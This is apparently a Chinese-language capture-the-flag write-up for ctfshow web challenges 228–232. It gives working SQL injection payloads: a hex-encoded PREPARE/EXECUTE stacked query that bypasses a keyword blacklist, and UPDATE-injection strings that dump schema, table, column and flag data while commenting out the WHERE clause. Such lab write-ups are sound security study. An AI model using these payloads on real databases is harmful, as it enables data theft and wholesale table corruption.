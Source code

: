 ## web 228 -- web 230 思路相同

这题把黑名单字符串放进了数据库的一个表里了，不给看，好思路。如果可以把这个表删了是不是就无敌了，不过现在使用16进制执行命令也没什么限制，哈哈

```sql
ctf';prepare a from 0x53454C454354202A2046524F4D20696E666F726D6174696F6E5F736368656D612E524F5554494E4553;execute a;#
```

## web 231 update注入

在网络界面js里找到传参的方式

![230](https://the0n3.top/medias/show-sql/230.png)

先测试修改ctfshow用户的密码

![2301](https://the0n3.top/medias/show-sql/2301.png)

接口返回信息，修改成功，可以正常执行

![2302](https://the0n3.top/medias/show-sql/2302.png)

在password字段上注入，把想查的数据通过子查询和update修改到当前显示的表里。因为把后面where判断注释了，所以会修改整个表

`在发愁记不住查库表字段语句？hackerbar准备的有联合查询语句，删掉union就可以用了`

```sql
# 查库
username=ctfshow&password=1',username=(select group_concat(schema_name) from information_schema.schemata);#
# 查表
username=information_schema,test,mysql,performance_schema,ctfshow_web&password=1',username=(select group_concat(table_name) from information_schema.tables where table_schema=database());#
# 查字段flag在flaga表的flagas字段里
username=banlist,ctfshow_user,flaga
&password=1',username=(select group_concat(column_name) from information_schema.columns where table_schema=database());#
# 查flag
username=id,char,id,username,pass,id,flagas,info&password=1',username=(select group_concat(flagas) from flaga);#
```

## web 232

修改语句给password添加了一个md5函数处理，直接给他闭合，后面加上自己的上题的语句。测试查询版本信息，可以正常执行

![232](https://the0n3.top/medias/show-sql/232.png)

![2321](https://the0n3.top/medias/show-sql/2321.png)

下面就和上题一样做就可以

```sql
# 测试
username=10.3.18-MariaDB&password=1'),username=(select version());#
# 查库
username=10.3.18-MariaDB&password=1'),username=(select group_concat(schema_name) from information_schema.schemata);#
# 查表
username=information_schema,test,mysql,performance_schema,ctfshow_web&password=1'),username=(select group_concat(table_name) from information_schema.tables where table_schema=database());#
# 查字段 flag在flagaa表的flagass字段
username=banlist,ctfshow_user,flaga
&password=1'),username=(select group_concat(column_name) from information_schema.columns where table_schema=database());#
```